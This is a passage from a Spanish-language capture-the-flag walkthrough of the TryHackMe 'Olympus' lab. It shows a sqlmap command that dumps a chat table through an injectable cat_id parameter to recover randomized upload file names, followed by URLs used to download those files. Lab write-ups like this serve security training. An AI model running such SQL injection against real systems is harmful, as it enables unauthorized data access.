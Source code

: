 Bien, el nombre de la "*upload folder*" parece ser ... *uploads* ... no se podía saber ;)

Intentamos descargarnos el fichero.

```
http://chat.olympus.thm/uploads/47c3210d51761686f3af40a875eeaaea.txt
```

Qué os parece el mensaje que nos da ?

Cachondo el tío. Seguimos con nuestro plan y desde la vista del chat probamos a enviar un fichero .txt con una línea de texto cualquiera y el nombre *"a.txt"* por ejemplo. Lo enviámos y volvemos a sacar un volcado de la tabla *chats*

> **Tip:** si el dump no se actualiza añadir la flag `--flush-session` para refrescar la consulta.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T chats  --dump
[...]
Database: olympus
Table: chats
[5 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
| 2022-08-04 | prueba                                                                                                                                                          | <blank>                              | prometheus |
| 2022-08-04 | Attached : a.txt                                                                                                                                                | 012a4f36f3ba4e3c90e2606db849bfef.txt | prometheus |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
```
Intentamos descargar el fichero que acabamos de subir utilizando el campo *file* del dump para ello

```
http://chat.olympus.thm/uploads/012a4f36f3ba4e3c90e2606db849bfef.txt
```
